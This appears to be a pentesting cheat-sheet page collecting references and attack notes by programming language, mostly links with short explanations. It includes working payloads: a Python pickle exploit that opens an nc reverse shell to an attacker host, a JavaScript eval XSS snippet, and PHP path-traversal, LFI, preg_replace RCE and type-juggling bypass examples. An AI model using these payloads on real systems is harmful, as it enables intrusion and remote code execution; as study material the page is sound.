

## Esoteric Languages 

- Malbolge compiler: https://www.tutorialspoint.com/execute_malbolge_online.php
- Brainfuck Interpreter: https://sange.fi/esoteric/brainfuck/impl/interp/i.html
- Piet Interpreter: https://www.bertnase.de/npiet/npiet-execute.php

## GO

**Environment Setup**

- Preparing Your Environment For Go Development: <https://www.gopherguides.com/courses/preparing-your-environment-for-go-development?utm_source=twitter&utm_campaign=install&utm_medium=twitter>

**References**

- <https://github.com/parsiya/Hacking-with-Go>
- <https://www.blackhat.com/docs/asia-17/materials/asia-17-Clapis-Go-Get-My-Vulnerabilities-An-In-Depth-Analysis-Of-Go-Language-Runtime-And-The-New-Class-Of-Vulnerabilities-It-Introduces.pdf>

## Java

**References**

- LLJVM - running comparatively low level languages (such as C) on the JVM: [https://github.com/davidar/lljvm](https://github.com/davidar/lljvm)
- Java deserialization attacks: 
  - [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)
  - [https://github.com/NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper)
  - <https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/>
  - <https://github.com/NickstaDB/DeserLab>
  - <https://github.com/NickstaDB/BaRMIe>

## JavaScript

**Tools**

- CharCode Translator: <http://jdstiles.com/java/cct.html>
```
<script>eval(String.fromCharCode(CHARCODE_HERE));</script>">
```

## NodeJS

**Tools**

- [Serialize an object including it's function into a JSON](https://github.com/luin/serialize)
- [Contents for Node.Js Security Course](https://github.com/ajinabraham/Node.Js-Security-Course)

**References**

- [Exploiting deserialization bugs in Node.js modules for Remote Code Execution](https://ajinabraham.com/blog/exploiting-deserialization-bugs-in-nodejs-modules-for-remote-code-execution)
  - [Exploiting Node.js deserialization bug for Remote Code Execution](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Node.js Security: Pentesting and Exploitation – NJS](https://opsecx.com/index.php/product/node-js-security-pentesting-and-exploitation/)
  - <https://github.com/ajinabraham/Node.Js-Security-Course>
  - <https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/node.js-deserialization.md>
  - <https://www.vulnhub.com/entry/moonraker-1,264/>
- [Node.Js Deserialization Attack – Detailed Tutorial 2018](https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/)

## Rails

- [Rails' Remote Code Execution Vulnerability Explained](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

## RegEx

**References**

- Regex tutorial — A quick cheatsheet by examples: <https://medium.com/factory-mind/regex-tutorial-a-simple-cheatsheet-by-examples-649dc1c3f285>
- Exploiting Regular Expressions: <https://medium.com/@somdevsangwan/exploiting-regular-expressions-2192dbbd6936>

## Rust 

**References**

- Fearless Concurrency with Rust: <https://blog.rust-lang.org/2015/04/10/Fearless-Concurrency.html>

## Python

**Challenges**

- <https://www.hackingnote.com/en/python-challenge-solutions/level-5>

**Attack Vectors**
- Exploiting Imports - It is possible to create a `.py` file named with the name of the import. This will load the local file (same dir as the file importing the library) instead of the actual library.
- cPickle RCE
  - [Arbitrary code execution with Python pickles](https://checkoway.net/musings/pickle/)
  - [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
  - <https://penturalabs.wordpress.com/2011/03/17/python-cpickle-allows-for-arbitrary-code-execution/>
  - <https://blog.nelhage.com/2011/03/exploiting-pickle/>
  - <https://stackoverflow.com/questions/38307636/can-anyone-explain-me-the-example-of-an-exploit-in-python-s-pickle-module>
  - HTB - DevOps
  - HTB - Challenge - Mics - Long Bottom's Locker
  - <https://www.hackingnote.com/en/python-challenge-solutions/level-5>

```python
#!/usr/bin/python3
import sys
import pickle

f = open(sys.argv[1], 'rb')
mydict = pickle.load(f)
f.close

for line in mydict:
    print("".join([k * v for k, v in line]))

for i in mydict:
    b=[]
    for x in i:
        #print x
        b.append(x[0] * x[1])

    print("".join(b))
```

```python
import cPickle, requests, base64

LHOST = '10.10.14.14'
LPORT = '31337'
RHOST = '10.10.10.91'
RPORT = '5000'


class Payload(object):
	def __init__(self, cmd):
		self.cmd = cmd
	def __reduce__(self):
		import os
		return (os.system, (self.cmd,))


reverse_sh = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f" % (LHOST, LPORT)
evilpickle = cPickle.dumps(Payload(reverse_sh))

r = requests.post('http://%s:%s/newpost' % (RHOST, RPORT), data=base64.urlsafe_b64encode(evilpickle))
print('POST {} {}'.format(r.status_code, r.url))
```

## PHP

### Cheatsheets

- <https://www.logicbig.com/tutorials/misc/php/php-advance-cheat-sheet.html>
- <http://overapi.com/php>
- <https://courses.cs.washington.edu/courses/cse154/18au/resources/cheatsheets/php-cheatsheet.pdf>

### References

- dangerous-php-functions: <https://alionder.net/dangerous-php-functions/>
- [Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
- <https://eev.ee/blog/2012/04/09/php-a-fractal-of-bad-design/>
- <https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/>
- <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
- [PHP Remote File Inclusion command shell using data://](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/)
- [Hardening and securing PHP on Linux](https://www.idontplaydarts.com/2011/02/hardening-and-securing-php-on-linux/)

- [HTTP Parameter Pollution with cookies in PHP](https://www.idontplaydarts.com/2013/06/http-parameter-pollution-with-cookies-in-php/)

### Attack Vectors 

#### Terminate strings using null byte**

Before `PHP 5.3` terminate strings using null byte is possible (%00 in URL)

```
http://example.com?param=../../../../etc/passed
  -> /etc/passed.php
http://example.com?param=../../../../etc/passed%00
  -> /etc/passed
```

#### Vulnerable Functions

Local / Remote file inclusion bugs:
```php
include()
include_once()
require()
require_once()
```

Local / Remote command execution bugs:
```php
eval()
preg_replace()
fwrite()
passthru()
file_get_contents()
shell_exec()
system()
```

SQL Injection bugs:
```php
mysql_query()
```

File / File system bugs:
```php
fopen()
readfile()
glob()
file()
popen()
exec()
```

> <https://0xzoidberg.wordpress.com/2010/05/26/vulnerable-php-functions/>

#### RCE with PREG Functions

- implement regular expressions for the preg_ functions (preg_match, preg_replace)
- `/e` modifier which allows evaluation of PHP code in the preg_replace

Example:

```php
<?php
$string = "this is my lower sting";
print preg_replace('/(.*)/e', 'strtoupper("\\1")', '$string');
?>

// THIS IS MY LOWER STING
```

Example Attack:
```php
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```

Filter Evasion:
- Prevent single quote and escape chars

```php
Following will fail: $string = "system('ls -lah')";

Bypass: $string = "`ls -lah`";
```

> - Ref: <http://www.madirish.net/402>

#### LFI with Filter Inclusion

- Useful when LFI is possible but ".php" is appended at end (and not vulnerable to null byte injection)
- `filter/convert.base64-encode` forces PHP to base64 encode the file before it is used in the require statement (`index​.php`) <http://example.com/?page=php://filter/convert.base64-encode/resource=index​>

#### LFI with Zip Inclusion (Include a file inside a zip)

- If it is possible to upload a zip file <http://example.com/?page=zip://uploads/zipfilename#shell.php?cmd=id>

#### LFI to RFI

- Possible if `allow_url_include` is on

#### Type Juggling

References:

- <https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf>
- <https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/>
- <https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#php-type-juggling-intro>
- <https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing>
- <https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/>
  



```php
'0e1234' == '0e4321'
'0e1234' == '0'
'0e1234' <= '1'
'0xf' == '15' #0xf in hexadecimal notation is 15
```

```php
'000...000' == int(0)
'0e0...000' == int(0)
'1e0...000' == int(1)
'0abc...000' == int(0)
'abc...000' == int(0) # if a string starts with a non numerical character it will default to int(0)
```

```php
var_dump("2 bottles" == 2); // ==> TRUE

$values = array("apple","orange","pear","grape"); in_array(0, $values); // ==> TRUE

if($password == "secretpass") // ==> TRUE when $password=0
```

Example:
```php
<php
  $token = "0e124656823434657657655654324342";
  if(isset($_COOKIE['token']) && $_COOKIE['token'] == $token) {
    // access to privilege area
  }
  else {
    // login require
  }
?>

$COOKIE[‘token’] == $token (‘0e124656823434657657655654324342’ == ‘0’) will return TRUE
$COOKIE[‘token’] != $token (‘0e124656823434657657655654324342’ != ‘0’) will return FALSE
```

#### Reduction in Entropy (Insecure HMAC)

```php
$secret = 'secure_random_secret_value'; $hmac = md5($secret . $_POST['message']); if($hmac == $_POST['hmac'])<br>
// ===> Bypass by creating a hmac starting with `0e[0-9]` // var_dump("0e123" == "0e51217526859264863"); ===> TRUE shell_exec($_POST['message']);
```

#### Hashing Algorithm Disclosure

Given 240610708 and QNKCDZO attacker can guess that hashing algo is `md5`

```php
var_dump(md5('240610708') == md5('QNKCDZO')); ===> TRUE
```
